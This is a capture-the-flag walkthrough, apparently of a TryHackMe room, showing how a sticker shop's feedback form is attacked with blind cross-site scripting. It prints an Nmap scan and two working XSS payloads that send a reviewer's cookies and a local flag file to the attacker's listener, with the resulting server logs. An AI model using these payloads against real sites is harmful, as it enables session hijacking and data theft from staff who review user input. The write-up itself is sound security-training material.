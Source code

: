 

![The-Sticker](https://github.com/user-attachments/assets/1d7a378d-3943-40dc-906b-66a4002470a5)


The local sticker shop has just launched its very own webpage. However, lacking much web development experience, they chose to build and host the site on the same computer they use for browsing the internet and reading customer feedback. A questionable decision!

Your objective: Access the flag located at http://ROOM_IP/flag.txt.

An Nmap scan shows that a service is running on port 8080.


```$ nmap -sV -sC -oN nmap_results 10.10.110.248 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 16:07 CET
Nmap scan report for 10.10.110.248
Host is up (0.032s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http-proxy Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
```

Access refused is the result of attempting to access the flag at http://10.10.110.248:8080/flag.txt. One can access the homepage.

![thm-stickershop-homepage](https://github.com/user-attachments/assets/71ad2f7a-7f18-4fb7-b056-9da8c08a7f13)


The homepage does not have anything particularly noteworthy.  Since it appears that support staff are reviewing the input, there is a feedback page that might be of interest.


![thm-stickershop-feedback](https://github.com/user-attachments/assets/874970ba-7060-4516-baf0-605bd62211ab)

We can use a simple XSS payload to see if the javascript gets rendered.

```
<img src=x onerror=document.location="http://10.8.6.138/"+document.cookie>
```
We get a hit on our server (10.8.6.138):

```
$ python3 -m http.server 80                
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.110.248 - "GET / HTTP/1.1" 200 -
```

By retrieving the flag's content from the support staff member's computer, obtaining the response, and then sending the response URL encoded to our server, we can now extract the flag.

```
<img src="x" onerror="
fetch('http://127.0.0.1:8080/flag.txt')
  .then(response => response.text())
  .then(flag => {
    fetch('http://10.8.6.138:81/?flag=' + encodeURIComponent(flag));
  });
">
```

```
$ python3 -m http.server 81
Serving HTTP on 0.0.0.0 port 81 (http://0.0.0.0:81/) ...
10.10.110.248 - "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
```













